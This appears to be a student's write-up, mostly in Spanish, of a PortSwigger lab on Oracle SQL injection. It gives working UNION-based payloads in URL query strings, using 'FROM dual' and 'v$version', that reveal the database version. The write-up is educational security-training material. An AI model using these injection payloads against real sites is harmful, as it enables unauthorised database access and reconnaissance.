 # `LAB`: SQL injection attack, querying the database type and version on Oracle

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

## Hint

On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

- **There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`**

### Oracle Cheastsheet:

- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

### Explicación:

- En Oracle siempre hay que utilizar una tabla _(o casi siempre...)_. Llamada: `dual`

Es decir, a la Query normal de SQL se podría agregar el `FROM dual`: 

````py
## SQLi Quey para SQL: (Este da error en Oracle!!!)
.web-security-academy.net/filter?category=Pets' Union Select '1','2' -- -

## SQLi Quey para Oracle: Booom!!!!
.web-security-academy.net/filter?category=Pets' Union Select '1','2' FROM dual -- -
````

El otro punto importante es utilizar los querys de Oracle para mostrar la información de la Base de Datos:

````sql
# Opción 1
SELECT banner FROM v$version
# Opción 2
SELECT version FROM v$instance
````

Es decir:

````py
## Es decir:

# Opción 1
.web-security-academy.net/filter?category=Pets' Union Select '1',banner FROM v$version --+-
# Opción 2 (Esta no sirve en este caso y da error...)
.web-security-academy.net/filter?category=Pets' Union Select '1',version FROM v$instance --+-
````

## Solución:

````py
## SQLi Quey para SQL: Prabando el Fuzzig, este query de SQL dará error de Oracle
.web-security-academy.net/filter?category=Pets' Union Select '1','2' -- -

## SQLi Quey para Oracle: Booom!!!!
.web-security-academy.net/filter?category=Pets' Union Select '1','2' FROM dual -- -

## Revisando el cheatsheet de portswigger de Oracle se puede encontrar el Query para mostrar DB Version

# Oracle DB Info Dump:
.web-security-academy.net/filter?category=Pets' Union Select '1',banner FROM v$version --+-

````

